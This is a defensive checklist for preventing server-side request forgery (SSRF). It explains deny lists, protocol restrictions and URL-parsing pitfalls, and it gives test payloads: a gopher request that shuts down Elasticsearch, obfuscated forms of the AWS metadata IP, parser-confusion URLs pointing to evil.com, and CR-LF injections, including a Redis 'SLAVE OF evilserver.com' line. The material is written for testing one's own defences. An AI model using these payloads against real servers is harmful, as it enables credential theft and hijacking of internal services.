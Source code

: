 # Server Side Request Forgery (SSRF) Checklist

<img src="images/ssrf.png" align="left"/>

Server-Side Request Forgery (SSRF) allows an attacker to have a server perform network calls in the context of that server. Common exploits will communicate to backend services via HTTP, but other protocols are also possible via protocol smuggling.

Impact of SSRF can vary, but can be especially severe in cloud environments due to cloud provider's metadata services revealing sensitive data. Avoid processing user supplied URLs if possible. Otherwise this checklist can help cover some common vectors.

## Mitigation Checklist
- [ ] Ensure that IP deny lists are comprehensive
- [ ] Enforce only defined protocols are processed (E.g. only HTTP/HTTPS)
- [ ] Ensure that DNS name resolutions don’t bypass any checks
- [ ] Ensure that HTTP redirects don’t bypass any checks
- [ ] Ensure that the IPv6 addresses don’t bypass any checks
- [ ] Ensure that uncommon representations of IPs don’t bypass any checks
- [ ] Ensure user controlled data is the expected type
- [ ] Ensure abusing URL parsing doesn’t bypass checks
- [ ] Ensure CR-LF & Unicode characters get encoded correctly
- [ ] Minimize user controlled data that is processed

:info: If there is a vector missing, feel free to open an issue or PR.

### Ensure that IP deny lists are comprehensive

There's probably not a legitimate use case for a user to have a server request something in the private IP space, the loopback address, or the AWS metadata endpoint. Ensure that you have all the following IPs in your disallow list.

|   |   |
|---|---|
| 127.0.0.1/8 | Loopback |
| 10.0.0.0/8 | Private IP Address Block |
| 172.16.0.0/12 | Private IP Address Block |
| 192.168.0.0/16 | Private IP Address Block |
| 169.254.169.254/32 | AWS Metadata Endpoint |

### Enforce only defined protocols are processed (E.g. only HTTP/HTTPS)

Configure the service to only use explicitly defined protocols. E.g. only allow HTTP/HTTPS. Not defining the protocol can allow protocol smuggling.

This request:
```
gopher://127.0.0.1:9200/_POST%20/shutdown%20HTTP/1.1%0AUser-Agent%3A%20curl/
7.35.0%0AHost%3A%20127.0.0.1%0AAccept%3A%20*/*%0AContent-Length%3A23%0AContent-Type%3A+application/
x-www-form-urlencoded%0AConnection%3A+close%0A%0AIm%20the%20request%20body%20now
```
Creates the following call to an elasticsearch server:
```
POST /shutdown HTTP/1.1
User-Agent: curl/7.35.0
Host: 127.0.0.1
Accept: */*
Content-Length: 23
Content-Type: application/x-www-form-urlencoded
Connection: close

Im the request body now
```

### Ensure that DNS name resolutions don’t bypass any checks

DNS rebinding attacks will resolve subdomains to internal IP addresses. Sites like xip.io provide this functionality. You can use this for testing. Ensure these resolutions will also be blocked by IP disallow lists.

|   |   |
|---|---|
| http://169.254.169.254.xip.io/ | http://169.254.169.254 |

### Ensure that HTTP redirects don’t bypass any checks

An attacker may host a server where they can set the response headers of a request to point to internal IPs. URL shortening services like bitly also can provide this functionality. You can use this for testing. Ensure redirects will also be blocked by IP disallow lists.

|   |   |
|---|---|
| https://bit.ly/2Gr1XnX | http://169.254.169.254 |

Also ensure that redirects will only process the predefined protocols.

### Ensure that the IPv6 addresses don’t bypass any checks

IPv4 can be represented as IPv6 addresses. Make sure these don’t bypass IP disallow lists.
| IPv4 | IPv6|
|---|---|
| 127.0.0.1 | 0:0:0:0:0:ffff:7f00:1 |
| 69.254.169.254 | 0:0:0:0:0:ffff:a9fe:a9fe |


### Ensure that uncommon representation of IPs don’t bypass any checks

Many libraries and binaries will process IPs represented as 32 bit ints, hex, or octal. Make sure that these don’t bypass the IP disallow lists.

| IP | 32bit Int | Hex | Octal |
|---|---|---|---|
| 127.0.0.1 | 2130706433 <br /> 0 | 0x7f000001 <br /> 0x0 | |
| 169.254.169.254 | 2852039166 | 0xa9fea9fe | |

You can test this out locally with ping or other binaries. (Note: `ping 0` resolves on linux, but not mac)

```
$ ping 2130706433
PING 2130706433 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.018 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.046 ms
```

### Ensure user controlled data is the expected type

```
axios.request(req.data.url).then(function(res) {

})
```
Some JS http client functions accept either a string or config object to create a request. An attacker could set the url parameter to be a config object. Similar issues can exist in other languages when assuming user input type. Ensure all user data is the expected data type.

Note: The impact of this vector can be more severe if the docker daemon is accessible from the app. Axios and some other JS request libraries support communicating over Unix sockets (See here). This results in RCE.

### Ensure abusing URL parsers doesn’t bypass checks

Ensure that the URL that was parsed and validated is the same that will be fetched by http client.

```
http://myvalidserver.com:8080@attackerserver.com
```

Most URL parsing libs will evaluate the server as attackerserver.com The following is vulnerable to allow an attacker to specify the host of the request.

```
axios.get(`http://myvalidserver.com:8080${req.data.path}`)
```

Include a trailing / before the user controlled path to avoid this vulnerability.

The following patterns may also be used for testing:
```
http://127.0.0.1:11211:80/
http://foo@evil.com:80@google.com/
http://foo@127.0.0.1 @google.com/
http://google.com#@evil.com/
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
http://127.0.0.1\tfoo.google.com
```

Ref: https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming- Languages.pdf

### Ensure CR-LF & Unicode characters get encoded correctly

Make sure CR-LF characters stay encoded and don’t allow CR-LF injection
```
http://127.0.0.1:25/%0D%0AHELO orange.tw%0D%0AMAIL FROM
http://127.0.0.1:25/\r\nSLAVE OF evilserver.com\r\n
```

```
http://myserver.com//passwd
http://myserver.com/xFF/x2E/xFF/x2E/passwd
```

### Minimize user controlled data that is processed

Nothing to test here. Just a note to evaluate if any user controlled parameters can be removed to reduce risk.
